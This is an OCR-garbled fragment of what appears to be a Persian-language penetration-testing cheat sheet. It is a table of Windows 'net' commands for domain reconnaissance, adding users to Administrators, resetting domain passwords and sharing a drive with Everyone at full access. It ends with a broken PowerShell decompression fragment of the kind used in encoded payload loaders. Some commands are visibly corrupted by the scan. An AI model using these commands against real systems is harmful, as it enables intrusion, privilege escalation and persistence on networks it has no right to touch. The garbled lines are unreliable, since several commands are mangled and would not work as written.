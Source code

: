     <tr>
      <td style="text-align:left">net view /domain: [MYDOMAIN]</td>
      <td style="text-align:left">هاست های در [MYDOMAIN]</td>
    </tr>
    <tr>
      <td style="text-align:left">net user /domain</td>
      <td style="text-align:left">کلیه کاربران دامین جاری</td>
    </tr>
    <tr>
      <td style="text-align:left">net user user pass /add</td>
      <td style="text-align:left">اضافه نموده کاربر</td>
    </tr>
    <tr>
      <td style="text-align:left">net localgroup &quot;Administrators&quot; user /add</td>
      <td style="text-align:left">اضافه نموده کاربر به Administrator ها</td>
    </tr>
    <tr>
      <td style="text-align:left">net accounts /domain</td>
      <td style="text-align:left">سیاست های کلمه عبور دامین</td>
    </tr>
    <tr>
      <td style="text-align:left">net localgroup &quot;Administrators&quot;</td>
      <td style="text-align:left">لیست Admin های محلی</td>
    </tr>
    <tr>
      <td style="text-align:left">net group /domain</td>
      <td style="text-align:left">لیست گروه های دامنه</td>
    </tr>
    <tr>
      <td style="text-align:left">net group &quot;Domain Admins&quot; /domain</td>
      <td style="text-align:left">لیست کاربران Admin در دامین</td>
    </tr>
    <tr>
      <td style="text-align:left">net group &quot;Domain Controllers&quot; /domain</td>
      <td style="text-align:left">لیست DC ها برای دامین جاری</td>
    </tr>
    <tr>
      <td style="text-align:left">net share</td>
      <td style="text-align:left">محیط اشتراکی SMB</td>
    </tr>
    <tr>
      <td style="text-align:left">net session I find I &quot;\&quot;</td>
      <td style="text-align:left">لیست نشست های فعال SMB</td>
    </tr>
    <tr>
      <td style="text-align:left">net user user /ACTIVE:yes /domain</td>
      <td style="text-align:left">گشودن دامین دامین</td>
    </tr>
    <tr>
      <td style="text-align:left">net user user &apos;&apos; newpassword &apos;&apos; /domain</td>
      <td style="text-align:left">تغییر نام کاربری و کلمه عبور دامین</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>net share share c:\share</p>
        <p>/GRANT:Everyone,FULL</p>
      </td>
      <td style="text-align:left">فولدر به اشتراک گذاشته شده</td>
    </tr>
  </tbody>
</table>


[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"